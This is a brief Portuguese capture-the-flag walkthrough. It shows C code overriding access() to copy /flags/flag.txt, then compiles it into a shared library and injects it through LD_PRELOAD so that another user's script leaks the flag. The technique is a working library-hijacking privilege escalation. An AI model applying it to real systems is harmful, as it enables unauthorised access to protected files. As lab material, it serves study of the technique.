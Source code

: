 Ir para tmp folder e criar lib.c:
` ` `
#include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      int access(const char *pathname, int mode){
           system("/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt ");
           return 0;
      }
` ` `
Dar permissões a lib.c:
`chmod 4755 lib.c`

Compilar:
`gcc -fPIC -g -c lib.c`

Criar a library:
`gcc -shared -o lib.so.1 lib.o -lc`

Criar env (cat > env) e colocar:
`LD_PRELOAD=/tmp/lib.so.1`

ir para a /home/flagreader correr:
`bash my_script.sh`

ir a tmp folder ver se existe myfile.txt e obter a flag

